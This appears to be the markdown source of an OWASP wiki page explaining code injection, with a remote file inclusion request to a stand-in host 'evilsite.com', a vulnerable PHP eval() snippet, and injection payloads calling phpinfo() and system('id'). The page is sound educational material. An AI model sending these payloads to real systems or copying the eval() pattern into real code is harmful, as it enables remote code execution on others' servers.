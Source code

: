 ```yaml
---

layout: col-sidebar
title: Code Injection
author: 
contributors: 
permalink: /attacks/Code_Injection
tags: attack, Code Injection
auto-migrated: 1

---
```


## Description

Code Injection is the general term for attack types which consist of
injecting code that is then interpreted/executed by the application.
This type of attack exploits poor handling of untrusted data. These
types of attacks are usually made possible due to a lack of proper
input/output data validation, for example:

  - allowed characters (standard regular expressions classes or custom)
  - data format
  - amount of expected data

Code Injection differs from [Command
Injection](Command_Injection "wikilink") in that an attacker is only
limited by the functionality of the injected language itself. If an
attacker is able to inject PHP code into an application and have it
executed, he is only limited by what PHP is capable of. Command
injection consists of leveraging existing code to execute commands,
usually within the context of a shell.

## Risk Factors

  - These types of vulnerabilities can range from very hard to find, to
    easy to find
  - If found, are usually moderately hard to exploit, depending of
    scenario
  - If successfully exploited, impact could cover loss of
    confidentiality, loss of integrity, loss of availability, and/or
    loss of accountability

## Examples

**Example 1**

If an application passes a parameter sent via a GET request to the PHP
include() function with no input validation, the attacker may try to
execute code other than what the developer had in mind.

The URL below passes a page name to the include() function.

<http://testsite.com/index.php?page=contact.php>

The file "evilcode.php" may contain, for example, the phpinfo() function
which is useful for gaining information about the configuration of the
environment in which the web service runs. An attacker can ask the
application to execute his PHP code using the following request:

<http://testsite.com/?page=http://evilsite.com/evilcode.php>

**Example 2**

When a developer uses the PHP eval() function and passes it untrusted
data that an attacker can modify, code injection could be possible.

The example below shows a dangerous way to use the eval() function:

    $myvar = "varname";
    $x = $_GET['arg'];
    eval("\$myvar = \$x;");

As there is no input validation, the code above is vulnerable to a Code
Injection attack.

For example:

    /index.php?arg=1; phpinfo()

While exploiting bugs like these, an attacker may want to execute system
commands. In this case, a code injection bug can also be used for
command injection, for example:

    /index.php?arg=1; system('id')

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:
    Internet_attacker](:Category:_Internet_attacker "wikilink")
  - [Internal_software_developer](Internal_software_developer "wikilink")

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [Command Injection](Command_Injection "wikilink")
  - [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
  - [LDAP injection](LDAP_injection "wikilink")
  - [SSI injection](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
  - [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category: Input Validation
    Vulnerability](:Category:_Input_Validation_Vulnerability "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [Input Validation](Input_Validation "wikilink")
  - [Output Validation](Output_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## References

  - [CWE-77: Command
    Injection](http://cwe.mitre.org/data/definitions/77.html)
  - [CWE-78: OS Command
    Injection](http://cwe.mitre.org/data/definitions/78.html)
  - [CWE-89: SQL
    Injection](http://cwe.mitre.org/data/definitions/77.html)

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
[Category:Attack](Category:Attack "wikilink") [Category:Injection
Attack](Category:Injection_Attack "wikilink")